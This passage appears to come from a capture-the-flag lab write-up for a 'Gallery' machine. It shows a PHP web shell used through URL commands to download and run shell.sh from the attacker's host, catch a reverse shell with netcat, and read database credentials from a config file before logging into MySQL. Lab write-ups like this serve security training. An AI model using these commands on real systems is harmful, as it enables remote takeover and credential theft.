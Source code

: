 ```console
Username : admin

shell uploading
- OK -
Shell URL : http://10.10.58.133/gallery/uploads/1666074420_TagojeiavxeyjeimuxrLetta.php?cmd=whoami

```
On going to the shell URL, found that we can now use reverse shell. (Could also have uploaded a reverse shell inside code of exploit)
```console
❯ curl http://10.10.58.133/gallery/uploads/1666074420_TagojeiavxeyjeimuxrLetta.php\?cmd\=whoami
<pre>www-data
</pre>%
```
Uploaded a shell file from local machine.
```url
http://10.10.58.133/gallery/uploads/1666074420_TagojeiavxeyjeimuxrLetta.php?cmd=curl%20http://10.8.0.150/shell.sh%20%3E%3E%20/tmp/shell.sh
```
```console
❯ curl http://10.10.58.133/gallery/uploads/1666074420_TagojeiavxeyjeimuxrLetta.php\?cmd\=ls%20-l%20/tmp
<pre>total 4
-rw-r--r-- 1 www-data www-data 41 Oct 18 06:38 shell.sh
</pre>
```
Give execution permission to the file.<br />
(http://10.10.58.133/gallery/uploads/1666074420_TagojeiavxeyjeimuxrLetta.php?cmd=chmod%20+x%20/tmp/shell.sh)<br/>

Then executed file with <br/>
(http://10.10.58.133/gallery/uploads/1666074420_TagojeiavxeyjeimuxrLetta.php?cmd=bash%20/tmp/shell.sh)<br />

Got a reverse shell
```console
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.0.150] from (UNKNOWN) [10.10.58.133] 51058
bash: cannot set terminal process group (714): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gallery:/var/www/html/gallery/uploads$
```
On reading initialize.php in the remote machine found user and password for mysql
```console
www-data@gallery:/var/www/html/gallery$ cat initialize.php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");

```
Logged into mysql
```console
www-data@gallery:/var/www/html/gallery$ mysql -u gallery_user -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 191
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04
```